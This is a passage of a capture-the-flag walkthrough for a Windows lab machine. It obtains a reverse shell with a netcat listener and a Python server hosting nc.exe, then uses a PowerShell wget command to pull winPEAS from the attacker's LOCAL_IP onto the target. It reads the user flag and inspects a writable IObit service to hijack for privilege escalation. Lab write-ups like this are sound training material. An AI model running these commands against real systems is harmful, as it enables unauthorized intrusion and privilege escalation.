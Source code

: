 Start a `netcat` listener on the port number specified on the exploit. Then, proceed to copy the `nc.exe` file located in `/usr/share/windows-resources/binaries/` to your preferred location and start a `python` server listening on port 80 from that same directory. When all set, execute the exploit script twice and the connection will be established with our `netcat` listener.

![image](https://user-images.githubusercontent.com/14150485/174684756-c6560791-0f1c-4630-97e5-9cf10b8faeda.png)

<br />

Grab a copy of [WinPEAS.exe](https://github.com/carlospolop/PEASS-ng/releases) that we can use to upload to the target machine, then proceed to place it on the desktop folder of the current user.

```
C:\Users\bill\Desktop>powershell -c wget "http://LOCAL_IP:80/winPEAS.exe" -outfile "winpeas.exe"
powershell -c wget "http://LOCAL_IP:80/winPEAS.exe" -outfile "winpeas.exe"

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

06/20/2022  04:43 PM    <DIR>          .
06/20/2022  04:43 PM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
06/20/2022  04:43 PM         1,936,896 winpeas.exe
               2 File(s)      1,936,966 bytes
               2 Dir(s)  44,209,725,440 bytes free
```

<br />

Since we are on the desktop folder we can quickly get the flag for the first challenge before we proceed with the next steps.

```
C:\Users\bill\Desktop>more user.txt
more user.txt
***************fcd7c**********d**5
```

<br />

The results from `WinPEAS` return a list of vulnerable services that we could potentially exploit. The first one on the list seems to allow our user to create files and write data in the service directory.

![image](https://user-images.githubusercontent.com/14150485/174689954-67058ed2-d09c-48f9-bd2b-5abf480500a8.png)

<br />

We can further investigate this service from its parent directory to see if we can manually interact with it, as well as write over it - Should that be the case, we can replace it to escalate our privileges.

```
C:\Program Files (x86)\IObit>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
```